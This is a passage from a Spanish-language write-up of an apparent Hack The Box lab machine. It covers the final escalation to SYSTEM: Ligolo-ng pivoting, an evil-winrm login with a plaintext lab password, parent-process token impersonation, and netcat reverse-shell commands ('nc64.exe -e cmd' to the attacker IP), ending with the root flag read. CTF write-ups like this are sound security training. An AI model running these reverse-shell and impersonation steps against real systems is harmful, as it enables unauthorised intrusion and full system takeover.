[+] Starting C:\Windows\System32\cmd.exe /c C:\temp\nc64.exe -e cmd 10.10.15.165 443...True - pid: 792 - Last error: 122
~~~
Al intentar enviar la reverse shell esta entrega un error, segun la IA esto puede ser por un problema de la shell que no permite caracteres muy largos, asi que me permite practicar pivoting es usar ligolo para exponer todos los puertos internos entre ellas winrm que entrega una mejor consola interactiva.
Primero en mi maquina se crean las interfaces.

***NOTA: La ip "240.0.0.1" es una ip especial y reservada que indica que expondra todos los puertos locales mas ni pivotear una subred***

~~~bash
┌──(kali㉿kali)-[~/htb/pov/exploits]
└─$ sudo ip tuntap add user kali mode tun ligolo
[sudo] password for kali: 
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/pov/exploits]
└─$ sudo ip link set ligolo up
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/pov/exploits]
└─$ sudo ip route add 240.0.0.1/32 dev ligolo
~~~
Luego  se abre el proxy.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ sudo ./proxy -selfcert     
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
WARN[0000] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                                                                                           
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                           
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                            
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                             
        /____/                          /____/                                                                                                              
                                                                                                                                                            
  Made in France ♥            by @Nicocha30!                                                                                                                
  Version: 0.8.2                                                                                                                                            
                                                                                                                                                            
ligolo-ng » INFO[0029] Agent joined.                                 id=005056b03c16 name="POV\\sfitz@pov" remote="10.129.230.183:49716"
~~~
Desde la maquina victima se debe pasar el "agent.exe" y conectarse a mi proxy.
~~~bash
PS C:\temp> .\agent.exe -connect 10.10.15.165:11601 -ignore-cert
~~~
Finalmente iniciar la conexión.
~~~bash
ligolo-ng » session
? Specify a session : 1 - POV\sfitz@pov - 10.129.230.183:49716 - 005056b03c16
[Agent : POV\sfitz@pov] » start
INFO[0048] Starting tunnel to POV\sfitz@pov (005056b03c16)
~~~
Con ello ya se tiene la conexión establecida pudiendo conectarse a los diferentes puertos con la ip "240.0.0.1". Asi que procedo a conectarme por winrm y correr la herramienta para enviar la reverse shell como sysetm.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ evil-winrm -i 240.0.0.1 -u "alaading" -p 'f8gQ8fynP44ek1m3'
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alaading\Documents> cd /temp

*Evil-WinRM* PS C:\temp> whoami
pov\alaading

*Evil-WinRM* PS C:\temp> Import-Module .\psgetsys.ps1
*Evil-WinRM* PS C:\temp> ImpersonateFromParentPid -ppid 556 -command "C:\Windows\System32\cmd.exe" -cmdargs "/c C:\temp\nc64.exe -e cmd 10.10.15.165 443"
~~~
Ahora si funciona, asi que antes se debe colocar un escucha que si recibe la conexión.
~~~bash
┌──(kali㉿kali)-[~/htb/pov/exploits]
└─$ rlwrap -cAr nc -nvlp 443 
listening on [any] 443 ...
connect to [10.10.15.165] from (UNKNOWN) [10.129.230.183] 49720
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Asi que ahora con acceso de NT Authotity System se puede ver la flag.
~~~bash
PS C:\Users\Administrator> ls
ls

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        1/15/2024   4:11 AM                3D Objects                                                            
d-r---        1/15/2024   4:11 AM                Contacts                                                              
d-r---        1/15/2024   4:11 AM                Desktop                                                               
d-r---        1/15/2024   4:11 AM                Documents                                                             
d-r---        1/15/2024   4:11 AM                Downloads                                                             
d-r---        1/15/2024   4:11 AM                Favorites                                                             
d-r---        1/15/2024   4:11 AM                Links                                                                 
d-r---        1/15/2024   4:11 AM                Music                                                                 
d-r---        1/15/2024   4:11 AM                Pictures                                                              
d-r---        1/15/2024   4:11 AM                Saved Games                                                           
d-r---        1/15/2024   4:11 AM                Searches                                                              
d-r---        1/15/2024   4:11 AM                Videos                                                                

PS C:\Users\Administrator> tree /f
tree /f
Folder PATH listing
Volume serial number is 0899-6CAF
C:.
����3D Objects
����Contacts
����Desktop
�       root.txt
�       
����Documents
����Downloads
����Favorites
�   �   Bing.url
�   �   
�   ����Links
����Links
�       Desktop.lnk
�       Downloads.lnk
�       
����Music
����Pictures
����Saved Games
����Searches
����Videos
PS C:\Users\Administrator> cd desktop
cd desktop
PS C:\Users\Administrator\desktop> type root.txt
type root.txt
<Encuentre su propia root flag>
~~~

🎉 Sistema completamente comprometido - Root obtenido

